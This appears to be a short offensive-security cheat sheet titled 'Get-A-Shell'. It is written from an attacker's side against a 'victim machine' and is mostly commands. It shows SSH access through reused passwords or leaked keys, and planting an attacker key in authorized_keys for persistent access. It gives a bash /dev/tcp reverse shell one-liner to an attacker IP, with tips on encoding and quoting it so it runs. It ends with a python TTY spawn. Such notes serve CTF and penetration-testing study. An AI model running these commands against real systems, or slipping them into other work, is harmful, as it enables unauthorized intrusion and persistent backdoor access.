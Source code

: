```yaml
---
sort : 1
---
```


# Get-A-Shell 


## SSH 

### Password Reuse Misconfiguration OR Private Key Leakage : 

```bash
$ ssh Username@Host
    password : ******* 

$ ssh -i PrivateKey Username@Host
```


### Connecting Via SSH is Better ? (.ssh)

```bash
# On the victim machine

$ mkdir ".ssh"; cd .ssh ; touch authorized_keys
```

```bash
# On the attacker machine

$ cd /tmp; ssh-keygen  

# Generating public/private rsa key pair.
Enter file in which to save the key (/home/o54ma/.ssh/id_rsa): TmpKey # file name to save the key 
Enter passphrase (empty for no passphrase): 						  # no password 
Enter same passphrase again: 								          # no password 


$ cat TmpKey.pub | xclip -selection c                                 # copy the public key

```

```bash
# Back on the victim machine

$ echo "`CTRL+V`" >> authorized_keys
```

```bash
# Back on the attacker machine

ssh -i TmpKey Username@Host
```







## Reverse Shell 

[the best place to generate a reverse shell](https://www.revshells.com/)

```note
some times the shell doesn't work, why ?? 

* if it is a bash reverse shell, e.g. ```bash bash -i >& /dev/tcp/10.10.x.x/1234 0>&1``` , try precede it with `bash -c` 

* try URL encoding / double URL encoding

* quotations conflict, how to deal with it ?? 

    * embrace the whole payload with double qoutes, then escape the inside ones
    
    * there is also some tools that ask you to pass the payload as an argv, so make sure how they gonna receive it (inside a double or a single qoutes ??)
```


# Spawn a TTY shell 

python3 -c 'import pty; pty.spawn("/bin/bash")'